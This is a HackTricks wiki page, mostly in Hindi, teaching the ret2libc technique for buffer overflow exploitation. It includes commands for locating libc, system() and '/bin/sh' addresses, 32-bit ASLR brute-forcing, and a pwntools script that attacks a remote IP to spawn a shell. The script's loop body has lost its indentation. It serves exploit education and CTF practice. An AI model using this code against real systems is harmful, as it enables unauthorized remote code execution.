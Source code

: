 # Ret2lib

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

**Ret2Libc** का सार यह है कि यह एक कमजोर प्रोग्राम के निष्पादन प्रवाह को एक साझा पुस्तकालय (जैसे, **system**, **execve**, **strcpy**) के भीतर एक फ़ंक्शन की ओर पुनर्निर्देशित करता है, बजाय इसके कि हमलावर द्वारा प्रदान किए गए शेलकोड को स्टैक पर निष्पादित किया जाए। हमलावर एक पेलोड तैयार करता है जो स्टैक पर लौटने के पते को इच्छित पुस्तकालय फ़ंक्शन की ओर इंगित करने के लिए संशोधित करता है, जबकि आवश्यक तर्कों को कॉलिंग कन्वेंशन के अनुसार सही ढंग से सेट करने की व्यवस्था भी करता है।

### **Example Steps (simplified)**

* कॉल करने के लिए फ़ंक्शन का पता प्राप्त करें (जैसे system) और कॉल करने के लिए कमांड (जैसे /bin/sh)
* पहले तर्क को कमांड स्ट्रिंग की ओर इंगित करने और फ़ंक्शन के लिए निष्पादन प्रवाह को पास करने के लिए एक ROP श्रृंखला उत्पन्न करें

## Finding the addresses

* मान लीजिए कि उपयोग की जाने वाली `libc` वर्तमान मशीन से है, आप यह पता लगा सकते हैं कि यह मेमोरी में कहाँ लोड होगी: 

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

यदि आप यह जांचना चाहते हैं कि क्या ASLR libc के पते को बदल रहा है, तो आप कर सकते हैं:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* libc का ज्ञान होने पर `system` फ़ंक्शन के लिए ऑफ़सेट ढूंढना भी संभव है:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* libc का ज्ञान होने पर, `/bin/sh` फ़ंक्शन के लिए ऑफ़सेट ढूंढना भी संभव है:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF का उपयोग करना

libc का ज्ञान होने पर, Peda या GEF का उपयोग करके **system** फ़ंक्शन, **exit** फ़ंक्शन और स्ट्रिंग **`/bin/sh`** का पता लगाना भी संभव है:
```
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps का उपयोग करना

यदि प्रक्रिया हर बार आपके साथ बात करने पर **बच्चे** बना रही है (नेटवर्क सर्वर) तो उस फ़ाइल को **पढ़ने** की कोशिश करें (संभवतः आपको रूट होना पड़ेगा)।

यहाँ आप **सटीक रूप से देख सकते हैं कि libc प्रक्रिया के अंदर कहाँ लोड हो रहा है** और **प्रक्रिया के हर बच्चे के लिए कहाँ लोड होने वाला है**।

![](<../../../../.gitbook/assets/image (95).png>)

इस मामले में यह **0xb75dc000** में लोड हो रहा है (यह libc का बेस पता होगा)

## अज्ञात libc

यह संभव है कि आप **नहीं जानते कि बाइनरी कौन सी libc लोड कर रहा है** (क्योंकि यह किसी सर्वर पर हो सकता है जहाँ आपके पास कोई पहुँच नहीं है)। उस मामले में आप **कुछ पते लीक करने के लिए भेद्यता का दुरुपयोग कर सकते हैं और पता कर सकते हैं कि कौन सी libc** लाइब्रेरी का उपयोग किया जा रहा है:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

और आप इसके लिए एक pwntools टेम्पलेट यहाँ पा सकते हैं:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## 32 बिट्स में ASLR को बायपास करना

ये ब्रूट-फोर्सिंग हमले **केवल 32-बिट सिस्टम के लिए उपयोगी हैं**।

* यदि एक्सप्लॉइट स्थानीय है, तो आप libc के बेस पते को ब्रूट-फोर्स करने की कोशिश कर सकते हैं (32-बिट सिस्टम के लिए उपयोगी):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* यदि आप एक दूरस्थ सर्वर पर हमला कर रहे हैं, तो आप **`libc` फ़ंक्शन `usleep` के पते को ब्रूट-फोर्स करने** की कोशिश कर सकते हैं, उदाहरण के लिए 10 को तर्क के रूप में पास करते हुए। यदि किसी बिंदु पर **सर्वर प्रतिक्रिया देने में 10 सेकंड अतिरिक्त समय लेता है**, तो आपने इस फ़ंक्शन का पता लगा लिया है।

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Code Example

इस उदाहरण में ASLR ब्रूट-फोर्स को कोड में एकीकृत किया गया है और कमजोर बाइनरी एक दूरस्थ सर्वर में स्थित है:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib कोड उदाहरण

उदाहरण देखें:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (या puts)

यह कुछ विशिष्ट डेटा को तर्क के रूप में रखकर `printf`/`puts` को कॉल करके **प्रक्रिया से जानकारी लीक करने** की अनुमति देता है।

## Ret2printf

इसका मूल अर्थ है **Ret2lib का दुरुपयोग करना ताकि इसे `printf` फॉर्मेट स्ट्रिंग्स भेद्यता में परिवर्तित किया जा सके**। `ret2lib` का उपयोग करके printf को उन मानों के साथ कॉल करना जो इसे शोषित करते हैं (बेतुका लगता है लेकिन संभव है):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## अन्य उदाहरण और संदर्भ

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, libc में एक फ़ंक्शन के पते को लीक करने के लिए, एक गेजेट का उपयोग करना
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 बिट, ASLR सक्षम लेकिन कोई PIE नहीं, पहला कदम ओवरफ्लो को भरना है जब तक कि कैनरी का बाइट 0x00 न हो जाए, फिर puts को कॉल करें और इसे लीक करें। कैनरी के साथ एक ROP गेजेट बनाया जाता है जो puts को कॉल करता है ताकि GOT से puts का पता लीक किया जा सके और फिर `system('/bin/sh')` को कॉल करने के लिए एक ROP गेजेट।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 बिट, ASLR सक्षम, कोई कैनरी नहीं, मुख्य से एक चाइल्ड फ़ंक्शन में स्टैक ओवरफ्लो। GOT से puts के पते को लीक करने के लिए puts को कॉल करने के लिए ROP गेजेट और फिर एक गेजेट को कॉल करें।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 बिट, कोई pie नहीं, कोई कैनरी नहीं, कोई relro नहीं, nx। write फ़ंक्शन का उपयोग करके write (libc) के पते को लीक करता है और एक गेजेट को कॉल करता है।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
